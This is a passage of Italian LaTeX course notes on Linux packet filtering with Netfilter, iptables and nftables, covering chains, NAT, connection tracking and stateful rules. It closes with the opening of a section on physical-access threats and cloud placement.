	
\includegraphics[width=0.7\textwidth]{image 50.png}
\end{figure}

\subsection{Variazioni}
Se si dispone di un PF molto affidabile o il budget è limitato, è possibile unificare le funzioni dei due router della screened subnet in un unico dispositivo con più interfacce ($\geq$ 3), realizzando comunque più DMZ distinte. All'opposto, per topologie ad alta sicurezza con molte zone a protezione crescente, si possono concatenare più DMZ in serie, ciascuna separata da un proprio PF.

\noindent\rule{\textwidth}{0.4pt}

\section{Netfilter / iptables / nftables}

\subsection{Il framework Netfilter}
\textbf{Netfilter} è un framework integrato nel kernel Linux che definisce cinque \textit{hook} in punti strategici dello stack di rete. Ogni pacchetto che attraversa lo stack attiva gli hook corrispondenti; programmi registrati agli hook possono esaminare e manipolare i pacchetti. \textbf{nftables} è lo strumento moderno per configurare il packet filter di Linux agganciandosi a Netfilter; \textbf{iptables} è il predecessore, ancora molto diffuso, che opera con la stessa logica.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 51.png}
\end{figure}

\subsection{Hook di Netfilter}
I cinque hook sono:
\begin{itemize}
	\item \textbf{NF\_IP\_PRE\_ROUTING}: attivato appena il pacchetto entra nello stack, prima di qualsiasi decisione di instradamento.
	\item \textbf{NF\_IP\_LOCAL\_IN}: attivato se il pacchetto è destinato a un processo locale.
	\item \textbf{NF\_IP\_FORWARD}: attivato se il pacchetto deve essere inoltrato a un altro host.
	\item \textbf{NF\_IP\_LOCAL\_OUT}: attivato da qualsiasi pacchetto generato localmente.
	\item \textbf{NF\_IP\_POST\_ROUTING}: attivato da qualsiasi pacchetto in uscita o in inoltro, prima che lasci il sistema.
\end{itemize}

Più programmi possono registrarsi allo stesso hook dichiarando una priorità; vengono invocati in ordine e ognuno restituisce una decisione sul pacchetto.

\subsection{Tabelle, catene e regole}
I tre concetti fondamentali di iptables/nftables sono:
\begin{itemize}
	\item \textbf{Tabella}: organizza i controlli per tipo di decisione. Le tabelle principali di iptables (utili come modello concettuale anche con nftables) sono:
	
	\begin{table}[H]
		\centering
		\begin{tabular}{|l|p{10cm}|}
			\hline
			\textbf{Tabella} & \textbf{Scopo} \\ \hline
			\texttt{raw} & disattiva il tracciamento delle connessioni (conntrack) per i pacchetti marcati \\ \hline
			\texttt{conntrack} & riconosce automaticamente le connessioni e vi attribuisce i pacchetti \\ \hline
			\texttt{filter} & decisione principale: lasciare passare o bloccare il pacchetto \\ \hline
			\texttt{nat} & traduzione degli indirizzi (NAT), modifica IP sorgente o destinazione \\ \hline
			\texttt{mangle} & modifica campi dell'header IP (es. TTL) e applica marcature interne \\ \hline
			\texttt{security} & imposta i contrassegni SELinux sui pacchetti \\ \hline
		\end{tabular}
	\end{table}
	
	\item \textbf{Catena}: organizza le regole in corrispondenza di uno specifico hook, ovvero del momento in cui intervenire durante il ciclo di vita del pacchetto. Le catene predefinite di iptables sono \texttt{PREROUTING}, \texttt{INPUT}, \texttt{FORWARD}, \texttt{OUTPUT} e \texttt{POSTROUTING}, corrispondenti ai cinque hook. In nftables non esistono catene predefinite: vanno create esplicitamente.
	\item \textbf{Regola}: elemento costitutivo di una catena. Esprime una condizione (\textbf{match}) e un'azione (\textbf{target} in iptables, \textbf{statement} in nftables). L'ordine è fondamentale: viene applicata la prima regola il cui match ha successo.
\end{itemize}

\subsection{Flusso dei pacchetti}

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 52.png}
\end{figure}

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 53.png}
\end{figure}

Il flusso segue sempre lo stesso schema: i pacchetti in arrivo dall'esterno percorrono le catene \texttt{PREROUTING} di tutte le tabelle che la supportano, poi si diramano verso \texttt{INPUT} (se destinati a un processo locale) o \texttt{FORWARD} (se da inoltrare). I pacchetti generati localmente percorrono le catene \texttt{OUTPUT}. Tutti i pacchetti in uscita attraversano infine \texttt{POSTROUTING}.

\subsection{Target e statement}
Una catena di regole può essere immaginata come un costrutto condizionale a cascata: ogni regola ha una condizione e, se soddisfatta da un terminating target, conclude l'analisi; altrimenti la scansione prosegue alla regola successiva. Se nessuna regola ha match, la catena restituisce a Netfilter il risultato definito dalla \textbf{default policy} della catena stessa.

I target/statement si dividono in due categorie.

\textbf{Terminating target / absolute verdict} — terminano la scansione della catena corrente:
\begin{itemize}
	\item \texttt{ACCEPT} / \texttt{accept}: il pacchetto prosegue verso le catene successive del percorso.
	\item \texttt{DROP} / \texttt{drop}: il pacchetto viene scartato silenziosamente.
	\item \texttt{RETURN} / \texttt{return}: si ritorna alla catena chiamante, o si applica la default policy se si è in una catena base.
\end{itemize}

\textbf{Non-terminating target / statement} — eseguono un'azione senza interrompere la scansione:
\begin{itemize}
	\item Contatori (\texttt{counter} in nft): incrementano un contatore di pacchetti e di byte ogni volta che un pacchetto fa match, senza interferire con il suo transito.
	\item \texttt{LOG} / \texttt{log}: il kernel logga i dettagli del pacchetto e la scansione della catena prosegue normalmente.
\end{itemize}

\noindent\rule{\textwidth}{0.4pt}

\section{Linux Packet Filter: iptables e nftables}

\subsection{Contesto}
Queste slide introducono gli strumenti principali con cui i sistemi Linux implementano il filtraggio dei pacchetti. \textbf{iptables} è stato il packet filter di riferimento fino al 2014 ed è ancora importante da conoscere per gestire sistemi legacy o per comprendere i concetti di base; \textbf{nftables} è invece il sistema moderno che ha sostituito non solo iptables, ma l'intera suite storica di strumenti di filtraggio.

La trattazione si concentra sulla configurazione pratica delle regole, sul rapporto con Netfilter e sul ruolo del connection tracking nel filtraggio stateful. L'obiettivo non è memorizzare tutte le opzioni sintattiche, ma capire il modello concettuale con cui Linux organizza tabelle, catene, match e azioni.

\subsection{iptables}

\subsubsection{Sintassi generale}
La sintassi di base di iptables ha la forma:
\begin{lstlisting}[language=bash]
	iptables -t tabella -CMD catena match -j target
\end{lstlisting}

Se l'opzione \texttt{-t} viene omessa, si assume la tabella \texttt{filter}. I comandi principali servono a elencare, aggiungere, inserire, cancellare, sostituire o svuotare regole e a impostare la policy di default di una catena.

Le operazioni più comuni sono \texttt{-L} per elencare, \texttt{-A} per aggiungere in fondo, \texttt{-I} per inserire in una posizione specifica, \texttt{-D} per rimuovere, \texttt{-R} per sostituire, \texttt{-F} per svuotare e \texttt{-P} per impostare la policy di default. Esistono molte altre estensioni, ma queste bastano per comprendere la gestione ordinaria delle catene.

\subsubsection{Match sui pacchetti}
iptables permette di fare match sui campi dell'header a diversi livelli dello stack. Al livello più basso si può selezionare l'interfaccia di ingresso o uscita con \texttt{-i} e \texttt{-o}; caricando l'estensione appropriata si può anche fare match sul MAC address sorgente.

A livello IP si possono controllare indirizzo sorgente e destinazione con \texttt{-s} e \texttt{-d}, riconoscere i frammenti successivi al primo con \texttt{-f} e usare intervalli di indirizzi tramite il modulo \texttt{iprange}. A livello di trasporto si può specificare il protocollo con \texttt{-p}, usare porte sorgente e destinazione quando il protocollo le prevede, controllare i flag TCP e distinguere i tipi ICMP.

\subsubsection{Esempi essenziali}
Alcune regole tipiche mostrano bene il modello operativo di iptables. Una regola può accettare traffico TCP verso la porta 80 diretto a una sottorete interna, imporre una policy di default \texttt{DROP} sulla catena \texttt{INPUT}, oppure configurare regole di NAT per tradurre indirizzi in ingresso o in uscita.

Un esempio minimo di filtraggio è il seguente:
\begin{lstlisting}[language=bash]
	iptables -A FORWARD -i ppp0 -d 87.15.12.0/24 -p tcp --dport 80 -j ACCEPT
	iptables -P INPUT DROP
\end{lstlisting}

Un esempio di NAT in uscita tramite \texttt{SNAT} e di inoltro verso un host interno tramite \texttt{DNAT} è il seguente:
\begin{lstlisting}[language=bash]
	iptables -t nat -A POSTROUTING -s 192.168.0.0/24 -o ppp0 -j SNAT --to-source 87.4.8.21
	iptables -t nat -A PREROUTING -i ppp0 -d 87.4.8.21 -p tcp --dport 2222 -j DNAT --to-destination 192.168.0.12
\end{lstlisting}

\subsubsection{NAT in iptables}
Nella tabella \texttt{nat}, i target specializzati permettono di modificare gli indirizzi dei pacchetti. \texttt{DNAT} si usa nelle catene \texttt{PREROUTING} o \texttt{OUTPUT} per cambiare la destinazione, mentre \texttt{SNAT} si usa in \texttt{POSTROUTING} o \texttt{INPUT} per cambiare la sorgente.

\texttt{REDIRECT} è una forma particolare di DNAT verso la macchina locale, utile quando si vuole ridirigere il traffico al sistema che esegue il firewall. \texttt{MASQUERADE} è l'equivalente dinamico di SNAT: usa automaticamente l'indirizzo dell'interfaccia di uscita ed è quindi comodo quando l'indirizzo pubblico può cambiare.

\subsubsection{Contatori}
Ogni regola può mantenere contatori di pacchetti e byte. I contatori si leggono con \texttt{-L}, spesso insieme a \texttt{-v} e \texttt{-x}, e si possono azzerare con \texttt{-Z}.

Per evitare errori di misura, lettura e azzeramento dovrebbero essere eseguiti insieme. La forma corretta è quindi:
\begin{lstlisting}[language=bash]
	iptables -vnxL -Z
\end{lstlisting}
Questo evita che arrivino pacchetti tra il comando di lettura e quello di azzeramento, falsando le statistiche del campionamento successivo.

\subsubsection{Catene custom}
iptables non permette facilmente di introdurre nuovi hook nel kernel, ma consente di costruire \textbf{catene custom} all'interno di una tabella esistente. Questo meccanismo è importante perché consente di strutturare set di regole grandi in modo modulare, gerarchico e più manutenibile.

Una catena custom viene creata con \texttt{-N}, può essere richiamata da una catena built-in con un salto \texttt{-j NOME}, e può terminare con \texttt{RETURN} per riprendere l'analisi nella catena chiamante. Una volta non più usata, può essere rimossa con \texttt{-X}, purché non esistano ancora salti che la referenziano.

L'utilità principale è organizzativa: si possono separare regole di filtraggio e monitoraggio, distinguere per sottorete o protocollo, oppure gestire dinamicamente insiemi di regole temporanee. Questo approccio è usato anche da framework di alto livello come ufw o shorewall.

Un caso interessante è la gestione dinamica di server rilevati a runtime. Per ogni server si può creare una catena dedicata, collegarla alla \texttt{FORWARD}, inserire al suo interno regole statiche e dinamiche, e poi eliminare tutto in modo pulito quando il server scompare.

\begin{lstlisting}[language=bash]
	iptables -N SRV_IPSERVER
	iptables -I FORWARD -d IPSERVER -j SRV_IPSERVER
	iptables -I FORWARD -s IPSERVER -j SRV_IPSERVER
	{ ... regole nella catena custom ... }
	iptables -F SRV_IPSERVER
	iptables -D FORWARD -d IPSERVER -j SRV_IPSERVER
	iptables -D FORWARD -s IPSERVER -j SRV_IPSERVER
	iptables -X SRV_IPSERVER
\end{lstlisting}

\subsection{nftables}

\subsubsection{Ruolo e vantaggi}
\textbf{nftables} è il sistema oggi implementato nel kernel Linux per il filtraggio dei pacchetti. Sostituisce in modo uniforme non solo iptables, ma anche strumenti separati come \texttt{arptables}, \texttt{ip6tables} ed \texttt{ebtables}, offrendo una gestione più coerente del traffico ai diversi livelli dello stack.

I vantaggi principali sono tre. Il primo è un modello integrato e omogeneo; il secondo è il miglioramento delle prestazioni, ottenuto superando il modello di scansione lineare delle catene in favore di strutture più efficienti come mappe e concatenazioni; il terzo è lo spostamento della complessità dal kernel agli strumenti userspace, che rende più semplice evolvere il sistema.

\subsubsection{Tabelle}
In nftables non esistono tabelle predefinite con un significato fisso. Questo rende il sistema più flessibile, ma significa anche che la configurazione deve iniziare esplicitando la tabella da usare.

Una prima configurazione minima può partire da un comando come:
\begin{lstlisting}[language=bash]
	nft add table ip foo
\end{lstlisting}

Le tabelle appartengono a una \textit{family}, come \texttt{ip}, \texttt{ip6}, \texttt{arp}, \texttt{bridge}, \texttt{inet} o \texttt{netdev}. È possibile elencarle, ispezionarle, crearle, svuotarle o cancellarle con gli appositi comandi di gestione.

\subsubsection{Catene}
Anche in nftables non esistono catene predefinite. Quando si crea una catena bisogna specificare la tabella di appartenenza, il tipo di elaborazione, l'hook a cui la catena base si aggancia, la priorità e l'eventuale policy di default.

La sintassi generale è più esplicita rispetto a iptables proprio perché espone chiaramente le proprietà strutturali della catena. Un esempio tipico è:
\begin{lstlisting}[language=bash]
	nft add chain ip foo bar { type filter hook input priority 0; policy drop; }
\end{lstlisting}
Questa regola crea una catena base di tipo \texttt{filter}, agganciata all'hook \texttt{input}, con policy di default \texttt{drop}. La maggiore verbosità iniziale rende più leggibile la struttura complessiva del ruleset.

\subsubsection{Regole}
Le regole di nftables vengono inserite nelle catene e specificano una sequenza di match seguita da uno o più statement. La sintassi fondamentale è:
\begin{lstlisting}[language=bash]
	nft add rule family table chain matches statements
\end{lstlisting}

Un esempio molto comune è accettare i pacchetti appartenenti a connessioni già stabilite o correlate, oppure permettere nuove connessioni TCP verso una certa porta:
\begin{lstlisting}[language=bash]
	nft add rule ip foo bar ct state established,related accept
	nft add rule ip foo bar ct state new tcp dport 22 accept
\end{lstlisting}

A differenza di iptables, nftables permette di esprimere in modo più regolare e compatto i criteri di match, mantenendo una sintassi più uniforme tra protocolli diversi.

\subsubsection{Match comuni}
Tra i match più usati ci sono quelli sugli indirizzi MAC (\texttt{ether saddr}, \texttt{ether daddr}), sui protocolli IP, sugli indirizzi sorgente e destinazione e sulle porte TCP o UDP. nftables permette inoltre di usare non solo singoli valori, ma anche intervalli, insiemi ed espressioni negate.

Per TCP si possono verificare le porte e i flag; per ICMP si possono distinguere i diversi tipi di messaggio. Questa uniformità rende nftables particolarmente adatto a regole compatte ma espressive.

\subsubsection{Verdict e monitoraggio}
Gli statement di tipo \textbf{verdict} decidono il destino del pacchetto o alterano il flusso di controllo. I principali sono \texttt{accept}, \texttt{drop}, \texttt{queue}, \texttt{continue}, \texttt{return}, \texttt{jump} e \texttt{goto}.

\texttt{jump} trasferisce il controllo a una catena e, dopo un \texttt{return}, riprende dalla regola successiva della catena chiamante. \texttt{goto} è simile, ma non torna indietro allo stesso punto: dopo la catena di destinazione la valutazione continua come se si fosse lasciata definitivamente la catena corrente.

Per il monitoraggio, nftables mette a disposizione statement come \texttt{log} e \texttt{counter}. Un vantaggio importante è la possibilità di concatenare più statement nella stessa regola, purché al più uno solo sia un verdict.

Un esempio tipico è loggare e poi scartare un pacchetto vietato:
\begin{lstlisting}[language=bash]
	nft add rule ip foo bar tcp dport != 80 log prefix "forbidden " drop
\end{lstlisting}

\subsubsection{NAT in nftables}
Anche nftables supporta NAT con statement dedicati. I principali sono \texttt{dnat to}, \texttt{snat to} e \texttt{masquerade}, eventualmente accompagnati da una traduzione di porta.

Il modello concettuale è lo stesso visto con iptables, ma espresso con una sintassi più coerente con il resto del linguaggio di configurazione.

\subsubsection{Rappresentazione del ruleset}
nftables ha una rappresentazione testuale molto regolare del ruleset. Il contenuto ottenuto con \texttt{nft list table} o \texttt{nft list ruleset} può essere scritto in un file e applicato direttamente con \texttt{nft -f file}.

Per questo è comune gestire la configurazione tramite file dichiarativi, spesso preceduti dal comando:
\begin{lstlisting}[language=bash]
	flush ruleset
\end{lstlisting}
In questo modo si parte da una configurazione pulita e si evita di sovrapporre regole residue a un nuovo ruleset.

\noindent\rule{\textwidth}{0.4pt}

\section{Connection tracking}

\subsection{Ruolo di conntrack}
Una funzione fondamentale di Netfilter è il riconoscimento dello stato dei pacchetti rispetto a una connessione. Questa attività è svolta in modo trasparente da \textbf{conntrack}, che viene invocato in \texttt{prerouting} con priorità specifica e mantiene una tabella delle connessioni osservate.

Il connection tracker è indipendente dal fatto che il protocollo sia orientato alla connessione o meno. In questo contesto, una connessione viene trattata come una tupla formata da protocollo, IP sorgente, IP destinazione, porta sorgente e porta destinazione.

\texttt{conntrack -L} permette di ispezionare la tabella delle connessioni. Il sistema riconosce l'inizio di nuove connessioni, l'appartenenza di un pacchetto a una connessione esistente e applica automaticamente alcune trasformazioni, come quelle richieste dal NAT.

\subsection{Disabilitare il tracking}
In alcuni casi si può voler evitare che un pacchetto venga sottoposto a connection tracking. In iptables questo si ottiene con \texttt{-j CT --notrack} nella catena \texttt{PREROUTING} della tabella \texttt{raw}; in nftables si usa lo statement \texttt{notrack}, collocato in una catena agganciata a \texttt{prerouting} con priorità anteriore a quella di conntrack.

L'idea chiave è che la decisione di saltare il tracking deve avvenire prima che conntrack entri in azione. Per questo motivo l'ordine delle catene e delle priorità è essenziale.

\subsection{Stati del tracking}

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 54.png}
\end{figure}

Quando arriva un pacchetto valido come primo di una nuova comunicazione, conntrack crea una nuova entry e marca il pacchetto come \texttt{NEW}. Se arriva un pacchetto di risposta coerente, la connessione passa a \texttt{ESTABLISHED} e i pacchetti successivi vengono riconosciuti come appartenenti a una connessione già stabilita.

Uno stato \texttt{RELATED} indica un flusso distinto ma correlato a una connessione esistente, mentre \texttt{INVALID} segnala un pacchetto che non appartiene a connessioni note e non è valido come inizio di una nuova comunicazione. Questi stati sono preziosi perché permettono di esprimere politiche molto più precise rispetto al semplice match su indirizzi e porte.

\subsection{NAT e tracking}
Quando una connessione subisce address translation, conntrack le assegna anche uno stato virtuale aggiuntivo come \texttt{SNAT} o \texttt{DNAT}. Questo produce due effetti automatici molto importanti.

Il primo è che tutti i pacchetti successivi della stessa connessione, nella stessa direzione, vengono modificati automaticamente nello stesso modo; di conseguenza le regole della tabella \texttt{nat} agiscono solo sul primo pacchetto della connessione. Il secondo è che i pacchetti di risposta nella direzione opposta vengono ripristinati automaticamente con gli indirizzi originari corretti.

Questo dettaglio è fondamentale nel filtraggio, perché tali trasformazioni avvengono in conntrack prima di ulteriori analisi del pacchetto. Chi scrive le regole deve quindi tenerne conto quando ragiona su quale indirizzo verrà visto nelle diverse fasi del percorso.

\subsection{Stateful filtering}
Dal punto di vista del filtraggio, la possibilità di fare match sullo stato della connessione è uno dei vantaggi principali del connection tracking. In iptables, per esempio, si possono accettare i pacchetti che avviano una comunicazione lecita e quelli appartenenti a connessioni già stabilite con \texttt{-m state --state NEW,ESTABLISHED}, oppure accettare solo risposte con \texttt{-m state --state ESTABLISHED}.

In nftables lo stesso principio si esprime con match come \texttt{ct state established accept}. Questo consente di definire regole compatte che distinguono chiaramente i pacchetti iniziatori da quelli di risposta.

\noindent\rule{\textwidth}{0.4pt}

\section{Strutture avanzate di nftables}

\subsection{Set}
nftables permette di definire \textbf{set}, cioè insiemi di elementi referenziabili simbolicamente dalle regole. Un set può contenere indirizzi IPv4, IPv6, MAC address, protocolli, porte, interfacce o altri tipi compatibili con il contesto del match.

Questo rende le regole più compatte e più facili da aggiornare. Invece di replicare molte volte gli stessi valori, si definisce il set una volta sola e lo si richiama simbolicamente nelle regole.

Un esempio tipico è:
\begin{lstlisting}[language=bash]
	nft add set ip foo goodlist { type ipv4_addr; }
	nft add element ip foo goodlist { 192.168.0.1, 192.168.0.10 }
	nft add rule ip foo bar ip daddr @goodlist counter accept
\end{lstlisting}

\subsection{Map}
Le \textbf{map} generalizzano i set permettendo di associare coppie chiave-valore. Sono utili quando una decisione non dipende solo dall'appartenenza a un insieme, ma da una traduzione tra un valore osservato e un valore da applicare.

Per esempio si può associare un blocco di indirizzi sorgente a un indirizzo da usare per lo SNAT, oppure mappare una porta a un indirizzo IP specifico. In questo modo si ottengono regole molto più sintetiche rispetto a una sequenza di casi separati.

\subsection{Verdict maps}
Le \textbf{verdict maps} sono un caso particolare di mappe in cui il valore associato non è un dato, ma un verdetto. Consentono di esprimere in forma compatta decisioni diverse per valori diversi di uno stesso match.

Per esempio si può decidere con una sola regola di saltare a una catena per i pacchetti TCP e a un'altra per quelli UDP, oppure accettare o scartare pacchetti in base a intervalli di porte o di indirizzi. Questo è uno dei punti in cui nftables mostra in modo più evidente la sua capacità di sostituire lunghe catene lineari con strutture più espressive.

\subsection{La Pratica del Filtraggio e NAT (Teoria)}
La configurazione di un firewall in un ambiente di rete reale richiede di tradurre le politiche di sicurezza in regole per le catene di Netfilter, gestendo il routing, gli stati delle connessioni e la traduzione degli indirizzi.

\begin{itemize}
	\item \textbf{Endpoint vs. Instradamento}: La collocazione del packet filter determina le catene (hook) da utilizzare:
	\begin{itemize}
		\item \textbf{Su Endpoint (Host):} Il filtro protegge la macchina stessa. Le regole si applicano sulle catene agganciate agli hook \texttt{input} (traffico in ingresso ai processi locali) e \texttt{output} (traffico generato localmente). \textit{Regola d'oro:} È fondamentale accettare esplicitamente sempre il traffico sull'interfaccia di loopback (\texttt{lo}), da cui dipendono le IPC di moltissimi servizi di sistema. Bloccare il loopback rompe il SO.
		\item \textbf{In Instradamento (Router):} Il filtro protegge le reti a valle. Le regole si applicano sulla catena agganciata all'hook \texttt{forward} (traffico in transito che non coinvolge i processi locali del router).
	\end{itemize}
	
	\item \textbf{Stateful Filtering e Prospettiva Simmetrica}: Il filtraggio stateful permette di implementare policy direzionali sicure (es. "Client può contattare Server, ma non viceversa"):
	\begin{itemize}
		\item I pacchetti iniziali (nuova connessione) sono ammessi solo nella direzione autorizzata.
		\item I pacchetti di risposta vengono ammessi nella direzione opposta \textbf{solo se} riconosciuti dal connection tracker come parte di una connessione stabilita (\texttt{ct state established}).
	\end{itemize}
	Quando si filtra su host diversi, la logica si ribalta prospetticamente. Per un flusso Client $\rightarrow$ Server:
	\begin{itemize}
		\item \textbf{Client:} Autorizza l'uscita (\texttt{output}) senza vincoli, e l'ingresso (\texttt{input}) \textbf{solo se} \texttt{established}.
		\item \textbf{Server:} Autorizza l'ingresso (\texttt{input}) senza vincoli, e l'uscita (\texttt{output}) \textbf{solo se} \texttt{established}.
	\end{itemize}
	
	\item \textbf{Gestione del NAT Complesso (Double NAT)}: Quando non esiste un instradamento diretto tra sorgente e destinazione (es. un router che fa da ponte tra due reti isolate), si ingannano entrambi gli endpoint combinando due manipolazioni:
	\begin{itemize}
		\item \textbf{DNAT (Destination NAT):} Eseguito all'ingresso (\texttt{prerouting}). Il client crede di contattare il router, che invece altera l'IP destinazione e redirige il traffico al server nascosto.
		\item \textbf{SNAT (Source NAT):} Eseguito in uscita (\texttt{postrouting}). Il router altera l'IP sorgente mettendoci il proprio. Il server nascosto riceve il pacchetto credendo provenga dal router e risponderà ad esso.
		\item \textit{Nota Teorica:} Il connection tracker (\texttt{conntrack}) inverte automaticamente queste due traduzioni sui pacchetti di risposta, prima che vengano esaminati dalle regole di filtraggio standard.
	\end{itemize}
	
	\item \textbf{Logging e Catene Custom (Manutenibilità)}:
	\begin{itemize}
		\item \textbf{Logging d'allarme:} Le regole log (che usano target non-terminanti) si posizionano tipicamente in coda a una catena, subito prima che entri in gioco la \textit{default policy} di \texttt{drop}, così da tracciare esclusivamente il traffico anomalo e bloccato.
		\item \textbf{Catene Custom:} Per gestire dinamicamente il traffico di host che appaiono/scompaiono, si instradano i loro pacchetti in catene personalizzate (con un \texttt{jump}). Questo permette di eliminare in un colpo solo tutte le regole di un singolo host eseguendo solo un \texttt{flush} e un \texttt{delete} della sua catena dedicata, mantenendo intatto il ruleset base.
	\end{itemize}
\end{itemize}

\chapter{Sicurezza Fisica e Collocazione in Cloud}

\section{Introduzione alla collocazione}

I sistemi di controllo dell'accesso alle informazioni (permessi su file, chiavi crittografiche) sono sempre mediati dal Sistema Operativo o dalla gestione di segreti. La collocazione fisica delle risorse influenza profondamente la sicurezza.

\subsection{On-premises}
\begin{itemize}
	\item \textbf{Nessuna condivisione} delle risorse fisiche con terzi.
	\item \textbf{Semplicità} nella separazione logica e fisica tra segreti e dati (es. inserimento manuale di password).
	\item \textbf{Necessità} di garantire l'integrità dell'hardware e l'esecuzione di software autentico.
\end{itemize}

\subsection{In the Cloud}
\begin{itemize}
	\item \textbf{Gestione HW/SW} di altissimo livello delegata al provider.
	\item \textbf{Condivisione} degli ambienti di memorizzazione ed elaborazione (Multi-tenancy).
	\item \textbf{Delocalizzazione} fisica dei dati.
\end{itemize}

\noindent\rule{\textwidth}{0.4pt}

\section{Minacce all'Accesso Fisico}

Un server non è solo un'applicazione esposta in rete, ma un calcolatore fisico. Le difese logiche (firewall, patch) possono essere aggirate da un attaccante con \textbf{accesso fisico} al sistema.

\subsection{Minacce principali con accesso fisico}
\begin{itemize}
	\item \textbf{Furto} dello storage o dell'intero calcolatore.
	\item \textbf{Connessione} di dispositivi malevoli alle interfacce (es. BadUSB, Keylogger).
	\item \textbf{Avvio} del sistema con un Sistema Operativo arbitrario (es. Live USB).
\end{itemize}

\subsection{Esempi di attacchi hardware noti}
\begin{itemize}
	\item \textbf{BadUSB / Thunderspy}: periferiche USB che emulano tastiere o leggono dati.
	\item \textbf{Keylogging / Videoghosting}: cattura di input o schermate.
